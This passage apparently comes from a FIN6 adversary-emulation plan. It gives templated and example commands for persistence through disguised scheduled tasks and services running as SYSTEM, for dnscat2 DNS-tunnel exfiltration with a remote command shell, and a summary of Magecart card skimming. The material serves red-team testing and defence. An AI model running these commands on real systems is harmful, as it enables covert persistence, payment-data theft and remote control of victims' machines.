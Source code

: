 ```sh
"C:\Windows\System32\schtasks.exe" /create /tn #{ } /tr "rundll32.exe "C:\#{ }",#{ }" /sc #{ } /ru System
```

```sh
Example: "C:\Windows\System32\schtasks.exe" /create /tn WindowsHelpAssistant /tr "rundll32.exe "C:\Windows\SysWOW64\0409\Assistant32.dll",workerInstance" /sc onstart /ru System
```

Alternative Procedure - EXE

```sh
Example: "C:\Windows\System32\schtasks.exe" /create /tn WindowsHelpAssistant /tr "c:\windows\temp\Assistant32.exe" /sc onstart /ru System
```

##### Service Creation ([T1543.003](https://attack.mitre.org/techniques/T1543/003/))

FIN6 Procedure

```sh
sc create "Windows Help Assistant" binpath="c:\windows\temp\Assistant32.exe" start="auto" obj="LocalSystem"
```

#### 5.5 - PoS data exfiltration over DNS tunnel ([T1048.003](https://attack.mitre.org/techniques/T1048/003/)) <sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup> <sup>[7](https://blog.morphisec.com/new-global-attack-on-point-of-sale-systems)</sup>

Alternative Procedure

##### dnscat2 Server

```sh
ruby dnscat2.rb --dns="domain=#{ }" --no cache
```

```sh
Example: ruby dnscat2.rb --dns="domain=example.com" --no cache
```

##### dnscat2 PowerShell Client

```sh
Start-Dnscat2 -Domain #{dnscat2 server} -Exec cmd
```

---

## Scenario 2 - Attacking E-Commerce Platforms

FIN6 is suspected of being responsible for the Magecart Group 6 activity.<sup>[10](https://blog.trendmicro.com/trendlabs-security-intelligence/fin6-compromised-e-commerce-platform-via-magecart-to-inject-credit-card-skimmers-into-thousands-of-online-shops/)</sup>  Magecart Group 6 is responsible for targeting high-volume E-commerce sites and exfiltrating payment data to an infrastructure that mimics that of the victim.  The group had a great deal of success in injecting Magecart scripts into legitimate 3rd party JavaScript libraries, thereby compromising the check-out process for thousands of E-commerce companies.<sup>[10](https://blog.trendmicro.com/trendlabs-security-intelligence/fin6-compromised-e-commerce-platform-via-magecart-to-inject-credit-card-skimmers-into-thousands-of-online-shops/)</sup>  FIN6 is also suspected of accomplishing enabling objectives in order to move laterally throughout an organization with the intent of gaining access to web servers.<sup>[13](https://usa.visa.com/dam/VCOM/global/support-legal/documents/fin6-cybercrime-group-expands-threat-To-ecommerce-merchants.pdf)</sup>  Once on a web server, the group modifies libraries to include custom Magecart scripts.
